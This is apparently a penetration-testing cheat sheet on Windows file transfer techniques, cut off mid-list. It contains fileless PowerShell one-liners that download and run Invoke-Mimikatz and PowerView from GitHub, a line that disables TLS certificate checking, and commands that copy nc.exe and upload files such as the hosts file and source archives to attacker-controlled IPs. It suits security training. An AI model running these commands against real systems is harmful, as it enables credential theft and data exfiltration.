 ## **Windows File Transfer Methods**
#### **Powershell based decode/ encode**
1. Convert to/from base64:
    1. File to base64 on Linux: `cat file | base64 -w 0; echo`
    2. Base64 to file on Windows: `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CR(...)o="))`
    3. Get md5 file hash on Windows: `Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`
    4. Get md5 file hash on Linux: `md5sum id_rsa`
2. PowerShell DownloadFile Method
    1. `(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')`
    2. `(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')`
3. PowerShell DownloadString - Fileless Method**
    1. `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
    2. ` (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`
4. PowerShell Invoke-WebRequest: `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
5. Common Errors with PowerShell:
    1. The parameter -UseBasicParsing: `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
    2. The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel." `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true} `
#### **SMB Downloads**
1. Create the SMB Server: `sudo impacket-smbserver share -smb2support /tmp/smbshare`
2. sudo impacket-smbserver share -smb2support /tmp/smbshare: `copy \\192.168.220.133\share\nc.exe`
3. Create the SMB Server with a Username and Password: `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`
4. Mount the SMB Server with Username and Password: `net use n: \\192.168.220.133\share /user:test test`
#### **FTP Downloads**
1. `sudo pip3 install pyftpdlib`
2. Setting up a Python3: `sudo python3 -m pyftpdlib --port 21`
3. Transfering Files from an FTP Server Using PowerShell: `(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')`
#### *****PowerShell Web Uploads**
1. `pip3 install uploadserver`
2. `python3 -m uploadserver`
3. `PowerShell Script to Upload a File to Python Upload Server:
    1. `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`
    2. `Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts`
4. PowerShell Base64 Web Upload 
    1. `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`
    2. `Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64`
#### **SMB Uploads**
1. Installing WebDav Python modules: `sudo pip3 install wsgidav cheroot`
2. Using the WebDav Python module: `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`
3. Connecting to the Webdav Share: `dir \\192.168.49.128\DavWWWRoot`
4. Uploading Files using SMB: 
    1. `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\`
    2. `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\`
#### **FTP Uploads**
1. `sudo python3 -m pyftpdlib --port 21 --write`
2. PowerShell Upload File: `(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`
3. Create a Command File for the FTP Client to Upload a File: 